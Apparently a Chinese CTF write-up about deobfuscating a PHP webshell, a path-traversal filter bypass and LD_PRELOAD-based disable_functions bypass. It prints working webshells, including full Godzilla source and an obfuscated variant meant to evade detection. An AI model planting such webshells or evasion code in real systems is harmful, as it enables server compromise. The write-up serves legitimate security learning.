# 从hello-web入手反混淆和disable_function绕过-先知社区

> **来源**: https://xz.aliyun.com/news/16239  
> **文章ID**: 16239

---

# 从hello-web入手php混淆和disable\_function绕过

## 前言

比赛打了一道题，考的是反混淆和disable-function的绕过，比较菜，也是学到了不少

## hello\_web



进入题目  
  
解码看看

I've let you ignore this paragraph.

没有什么作用

但是 url 头有一个明显的特征

```
http://eci-2zec5qvil3d0fexv8fbb.cloudeci1.ichunqiu.com/index.php?file=hello.php

```

看起来可以文件包含或者读取

然后可以看看源代码  
  
可以读取一下试一试

  
没有什么作用，而且过一会就会跳转到 hello.php

尝试一下 php 的为协议

  
应该是被 ban 了的意思

当时感觉../就很奇怪，怀疑是不是要绕过，先简单双写绕过一下

```
http://eci-2zec5qvil3d0fexv8fbb.cloudeci1.ichunqiu.com/index.php?file=..././tips.php

```

成功  
  
在读取其他文件

得到源码

```
<?php
highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};$rVkKjU=$lapUCm{7}.$lapUCm{13};$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
?>

```

不过是混淆后的，一步一步反混淆

```
<?php
highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";
$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";
$lapUCm='n1zb/ma5\vt0i28-pxuqy*6lrkdg9_ehcswo4+f37j';
$YwzIst="base64_decode";
$OxirhK="strtr";
$YpAUWC="substr";
$rVkKjU=52;
eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
?>

```

然后再解码

```
$uWcdaA="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxMEzqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrelmM9jWAfxqnT2UYjLKi9qw1DFYNIhgYRsDhUVBwEXGvE7HM8+Ox==";eval('?>'.$YwzIst($OxirhK($YpAUWC($uWcdaA,$rVkKjU*2),$YpAUWC($uWcdaA,$rVkKjU,$rVkKjU),$YpAUWC($uWcdaA,0,$rVkKjU))));

```

再次反混淆得到一个 webshell

```
<?php @eval($_POST['cmd_66.99']); ?>

```

拿蚁剑连一手



  
没有权限  
看 phpinfo



有 disablefunction

有插件，一把梭哈

  
然后就可以执行命令了





## php混淆

PHP代码混淆 ，用非加密方式保护 PHP 程序不被篡改。 主要对PHP代码中的变量、函数和类进行混淆 ，达到通过人工手段几乎不可能进行修改的效果。  
比如我们的赛题，反混淆后就是一个webshell，但是你能看出来吗？

其实感觉应该是躲避webshell检测的吧，比较检测引擎应该识别不出来这种webshell

可能和webshell免杀相关性比较强

还有这样一个例子

### 工具混淆

我们可以参考  
<https://gitcode.com/gh_mirrors/en/enphp/overview?utm_source=csdn_github_accelerator&isLogin=1>  
项目  
配置

```
include './func_v2.php';
$options = array(
        //混淆方法名 1=字母混淆 2=乱码混淆
        'ob_function'        => 2,
        //混淆函数产生变量最大长度
        'ob_function_length' => 3,
        //混淆函数调用 1=混淆 0=不混淆 或者 array('eval', 'strpos') 为混淆指定方法
        'ob_call'            => 1,
        //随机插入乱码
        'insert_mess'        => 0,
        //混淆函数调用变量产生模式  1=字母混淆 2=乱码混淆
        'encode_call'        => 2,
        //混淆class
        'ob_class'           => 0,
        //混淆变量 方法参数  1=字母混淆 2=乱码混淆
        'encode_var'         => 2,
        //混淆变量最大长度
        'encode_var_length'  => 5,
        //混淆字符串常量  1=字母混淆 2=乱码混淆
        'encode_str'         => 2,
        //混淆字符串常量变量最大长度
        'encode_str_length'  => 3,
        // 混淆html 1=混淆 0=不混淆
        'encode_html'        => 2,
        // 混淆数字 1=混淆为0x00a 0=不混淆
        'encode_number'      => 1,
        // 混淆的字符串 以 gzencode 形式压缩 1=压缩 0=不压缩
        'encode_gz'          => 0,
        // 加换行（增加可阅读性）
        'new_line'           => 1,
        // 移除注释 1=移除 0=保留
        'remove_comment'     => 1,
        // debug
        'debug'              => 1,
        // 重复加密次数，加密次数越多反编译可能性越小，但性能会成倍降低
        'deep'               => 1,
        // PHP 版本
        'php'                => 7,
    );
$file = 'code_test/1.php';
$target_file = 'encoded/2.php';
enphp_file($file, $target_file, $options);

```

一个原始代码

```
**<?php

error_reporting(E_ALL ^ E_NOTICE);
error_reporting(0);
if (isset($_GET['secret'])) {
    eval($_GET['secret']);
} else {
    highlight_file(__FILE__);
}

```

加密后的代码

```
<?php  error_reporting(E_ALL^E_NOTICE);
define('��', '�');
$_GET[��] = explode('|5|8|/', 'error_reporting|5|8|/secret|5|8|/highlight_file');

$_GET{��}[0](E_ALL ^ E_NOTICE);
$_GET{��}[0](0);
if (isset($_GET[$_GET{��}{0x001}])) {
    eval($_GET[$_GET{��}{0x001}]);
} else {
    $_GET{��}[0x0002](__FILE__);
}

```

我们传入参数的地方都被替换为不可见字符了

### 在线混淆网站

<https://www.phpobfuscator.cn/php>

```
<?php

@session_start();           //创建或者重启一个会话
@set_time_limit(0);         //设置程序最长运行时间：永久
@error_reporting(0);            // 关闭错误报告
function encode($D,$K){         //通过密钥对 $D 进行加/解密
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}

$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    //用base64 对 $_POST[$pass] 进行解码，然后通过密钥对返回数据进行加/解密
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
        eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);     //将攻击荷载存储到SESSION
        }
    }
}

```

一股哥斯拉的味道

但是朋友你没有错，它就是哥斯拉木马，但是你看看下面的它呢


```
<?php
/* obfuscated by phpObfuscator.cn */
@session_start(); @set_time_limit(0); @error_reporting(0); function encode($lhrkrs, $lhrkra) { for ($lhrkrk = 0; $lhrkrk < strlen($lhrkrs); $lhrkrk++) { $lhrkrb = $lhrkra[$lhrkrk + 1 & 15]; $lhrkrs[$lhrkrk] = $lhrkrs[$lhrkrk] ^ $lhrkrb; } return $lhrkrs; } $lhrkrr = "\x70\141\163\x73"; $lhrkru = "\x70\141\171\154\157\x61\x64"; $lhrkrw = "\x33\143\66\145\x30\142\70\x61\71\x63\x31\65\62\62\64\x61"; if (!isset($_POST[$lhrkrr])) { goto lzqaksw; } $lhrkrz = encode(base64_decode($_POST[$lhrkrr]), $lhrkrw); if (isset($_SESSION[$lhrkru])) { goto lzqaksr; } if (!(strpos($lhrkrz, "\147\x65\x74\x42\141\x73\151\x63\x73\111\156\x66\157") !== false)) { goto lzqaksb; } $_SESSION[$lhrkru] = encode($lhrkrz, $lhrkrw); lzqaksb: goto lzqaksu; lzqaksr: $lhrkri = encode($_SESSION[$lhrkru], $lhrkrw); if (!(strpos($lhrkri, "\x67\145\x74\x42\141\163\151\x63\163\111\x6e\146\x6f") === false)) { goto lzqaksk; } $lhrkri = encode($lhrkri, $lhrkrw); lzqaksk: eval($lhrkri); echo substr(md5($lhrkrr . $lhrkrw), 0, 16); echo base64_encode(encode(@run($lhrkrz), $lhrkrw)); echo substr(md5($lhrkrr . $lhrkrw), 16); lzqaksu: lzqaksw:

```

一点都看不出看来了吧  
哈哈哈哈哈

这就是混淆的力量

## disable绕过

虽然比赛打的是其他的，但是没有理解到，这里感觉LD\_PRELOAD应该是最典的

LD\_PRELOAD简介  
LD\_PRELOAD 是linux下的一个环境变量。用于动态链接库的加载，在动态链接库的过程中他的优先级是最高的。类似于 .user.ini 中的 auto\_prepend\_file  
它允许你定义在程序运行之前优先加载的动态链接库，那么我们就可以在自己定义的动态链接库中装入恶意函数。 也叫做LD\_PRELOAD劫持  
比如：一个恶意文件中有一个恶意构造的函数和我们程序指令执行时调用的函数一样，而LD\_PRELOAD路径指向这个恶意文件后，这个文件的优先级高于原本函数的文件，那么优先调用我们的恶意文件后会覆盖原本的那个函数，那么当我们调用原本函数时，它会自动调用恶意的函数，非常危险。

如果我们利用LD\_PRELOAD 劫持了所有的系统命令。那么他都会加载这个恶意的so，最终会产生不可逆的漏洞，比如：反弹shell

### LD\_PRELOAD 简单利用演示

我们这里以随机数为例子  
首先编写一个c代码

rand.c

```
#include<stdio.h>
#include<stdlib.h>
#include<time.h> 
int main()
{
    srand(time(NULL)); //随机生成种子，保证每次出现的随机数不相同
    int i = 10;
    while(i--) printf("%d\n",rand());
    return 0;
}

```

然后编译它  
gcc rand.c -o rand

运行查看结果



然后我们再写一个so文件

主体部分更换为

```
int rand()
{
return 666;
}
gcc -shared -fPIC 自定义文件.c -o 生成的库文件.so
gcc -shared -fPIC unrand.c -o unrand.so
export LD_PRELOAD=$PWD/unrand.so

```



可以看见劫持成功啦
